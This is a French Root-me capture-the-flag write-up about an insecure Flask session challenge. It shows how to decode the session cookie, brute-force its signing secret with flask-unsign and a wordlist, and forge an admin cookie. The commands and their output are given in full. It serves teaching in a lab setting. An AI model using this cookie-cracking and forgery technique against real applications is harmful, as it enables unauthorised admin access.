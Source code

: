 ```yaml
---
title: Root-me - Flask - Unsecure session
meta_title: ""
description: 
date: 2024-06-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - WebServeur
  - Facile
author: Tmax
tags:
  - WebServeur
  - Rootme
  - Flask
draft: false
---
```


# Introduction

Pour ce challenge, nous allons devoir prendre en main une application Flask. 

{{< tabs >}} {{< tab "Niveau 1" >}}
- Vous avez bien lu la description du challenge ? Les ressources également ?
- Vous avez décodé les informations de session ? 
- Vous avez compris à quoi sert la clef secrète ?
- Peut-être qu'il existe un outil pour faire ce que vous voulez faire ? 

{{< /tab >}}

{{< tab "Niveau 2" >}}

Le cookie est sous cette forme : eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zo1FKA.l5WEGjNjBSTUElktRQjhYKc2CpY

Avec Flask, le cookie est généralement sous la forme {base64_data}.{hmac256_hash_data}. 

Si l'on essaye de décoder la data avec un outil comme cyberchef, nous pouvons remarquer qu'elle ressemble à cela : 

```json
{
    "admin": "false",
    "username": "guest"
}
```

Le bût est d’accéder à la page admin, qui vérifie si l'utilisateur est admin au travers du cookie. 

Nous devons générer un cookie avec `admin = true`, sans connaitre la clef secrète qui génère cette signature 

Donc ici ce que l'on recherche c'est de trouver le bon secret afin de dériver `data` et avoir une signature valide. 

Nous pouvons sois générer ce hash à la main et tester la validité de notre cookie avec un script, soit utiliser un outil qui le fait déjà comme `flask-unsign`. Après l'avoir installé : 

```bash
/home/tmax/.local/bin/flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zo1TTA.IKXFGkrCjhnNIvJHTYtCuDOVJh0'  --no-literal-eval
[*] Session decodes to: {'admin': 'false', 'username': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 70144 attempts
b's3cr3t'
```

Nous pouvons maintenant, avec cette clef, générer un cookie valable : 

```bash
/home/tmax/.local/bin/flask-unsign --sign --cookie '{"admin": "true","username": "guest"}' --secret s3cr3t
eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6Imd1ZXN0In0.Zo1UIQ.ZWPJM0K9zPnjEc8RlKqbjPuE6E0
```

{{< /tab >}}
{{< /tabs >}}
